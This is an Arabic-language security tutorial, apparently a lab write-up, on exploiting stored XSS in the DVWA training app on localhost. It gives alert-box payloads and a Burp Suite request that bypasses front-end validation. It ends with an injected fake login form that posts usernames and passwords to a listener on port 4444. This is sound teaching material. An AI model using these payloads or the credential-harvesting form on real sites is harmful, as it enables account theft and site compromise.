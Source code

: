 جربنا نكتب:

```html
<svg onload=alert(1)>
```

وفعلًا الكود اشتغل!  
يعني كده عندنا **Stored XSS**، لأن الكود اتخزن، وكل مرة نفتح الصفحة بيرن من تاني.

---

## 🛠️ نستخدم **Burp Suite** بدل ZAP:

الخطوات هتكون كالتالي:

1. ✅ شغّل **Burp Suite**
2. ✅ من تبويب **Proxy > Intercept** اتأكد إن الـ Intercept شغّال
3. ✅ افتح متصفحك (مربوط بـ Burp – سواء FoxyProxy أو Manual Proxy على 127.0.0.1:8080)
4. ✅ افتح موقع **DVWA** على `127.0.0.1` وروح لتبويب **Stored XSS**
5. ✅ اكتب أي **تعليق تجريبي** واضغط على زر "Sign Guestbook"
6. 🛑 الـ Burp هيمسك الريكوست في تبويب **Intercept**
7. ✅ روح على **HTTP history** أو **Forward it** وبعدين افتح الريكوست في **Repeater** (كليك يمين → Send to Repeater)
8. ✏️ في الـ Repeater، عدّل قيمة `mtxMessage=` وخليها مثلاً:

```html
<IMG SRC=# onmouseover="alert('xss')">
```

فشكل الريكوست هيبقى زي كده:

```
POST /vulnerabilities/xss_s/ HTTP/1.1
Host: 127.0.0.1
...

txtName=xyz&mtxMessage=<IMG SRC=# onmouseover="alert('xss')">&btnSign=Sign+Guestbook
```

9. ✅ اضغط Send من الـ Repeater، وروح راجع الصفحة… هتلاقي الـ Payload ظهر فعلاً ومجرد ما المؤشر ييجي عليه، البوكس يطلع 😈

---

## 🎯 ليه استخدمنا Burp؟
- عشان **نتجاوز قيود الفرونت إند** (زي عدد الحروف أو الفاليديشن).
- ونبعت الريكوست زي ما إحنا عايزين مباشر على السيرف

---

## 🎭 نعمل Login مزيف ونسرق بيانات الدخول:

بدل ما ناخد الـ Cookies، نجرب نخدع اليوزر بـ login form مزيف:

```html
<h3>Please login to see</h3> 
<form action=http://127.0.0.1:4444>
Username:<br><input type="username" name="username"></br>
Password:<br><input type="password" name="password"></br>
<br><input type="submit" value="Logon"></br>
```
